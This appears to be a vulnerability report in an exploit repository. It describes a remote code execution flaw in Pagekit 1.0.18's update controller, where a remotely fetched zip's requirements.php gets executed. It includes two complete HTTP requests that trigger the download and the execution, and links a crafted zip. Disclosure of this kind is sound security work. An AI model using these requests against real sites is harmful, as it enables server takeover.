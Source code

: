 # PageKIt_Exp
PageKIt_Exp文件
<!--

Before submitting an issue, please try some troubleshooting steps:

- Enabled debug mode: https://pagekit.com/docs/troubleshooting/debug-mode
- Verify the server requirements: https://pagekit.com/docs/getting-started/requirements
- Disable all installed extensions
- Check the browser developer console for errors

-->

## Problem

**There is a logical flaw that leads to obtaining shell access.**
  

## Technical Details

- Pagekit version: 1.0.18
- Webserver: nginx
- Database: mysql
- PHP Version: 7.4

Vulnerability Path:
app/installer/src/Controller/UpdateController.php
Lines 32-72: downloadAction and updateAction functions
The downloadAction function retrieves a file from a remote location to the local system.
The updateAction function reads the downloaded file.
Within it, the SelfUpdater function is called at app/installer/src/SelfUpdater.php.
It includes the app/installer/requirements.php file from the remotely fetched file.
This can lead to remote code execution.
Based on this, constructing a zip file as follows:
[pagekit.zip](https://github.com/pagekit/pagekit/files/12388705/pagekit.zip)


The data package is as follows
#### 
    POST /index.php/admin/system/update/download HTTP/1.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: keep-alive
    Content-Length: 58
    Content-Type: application/x-www-form-urlencoded
    Cookie: Administrator's Cookie
    Host: localhost
    Referer: http://localhost/index.php/admin/system/update/download
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
    
    url=constructed_zip_file&_csrf=4eb8d50f82ebae5b1fa16d5177d99ea7d740a8b2


####
    POST /index.php/admin/system/update/update HTTP/1.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cache-Control: max-age=0
    Connection: keep-alive
    Content-Length: 46
    Content-Type: application/x-www-form-urlencoded
    Cookie: Administrator's Cookie
    Host: localhost
    Referer: http://localhost /index.php/admin/system/update/update
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
    
    _csrf=4eb8d50f82ebae5b1fa16d5177d99ea7d740a8b2


